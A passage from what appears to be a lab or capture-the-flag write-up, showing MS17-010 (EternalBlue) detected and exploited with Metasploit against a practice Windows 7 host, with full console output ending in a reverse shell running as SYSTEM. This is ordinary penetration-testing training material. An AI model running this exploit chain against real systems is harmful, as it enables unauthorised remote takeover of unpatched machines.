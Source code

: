 ```
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
```
Now if we start metasploit and load the exploit we can enter ```show options``` and see that the only information that we really have to enter is the ```RHOST```.
```
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs
```
I set the ```RHOST``` to the IP of the box and then hit exploit and am given a shell. If I run ```whoami``` It shows I am the ```NT AUTHORITY/SYSTEM```.
```
msf5 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 10.10.10.40
rhosts => 10.10.10.40
msf5 exploit(windows/smb/ms17_010_eternalblue) > exploit

[*] Started reverse TCP handler on 10.10.14.39:4444 
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Command shell session 1 opened (10.10.14.39:4444 -> 10.10.10.40:49160) at 2019-10-22 00:34:30 -0400
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```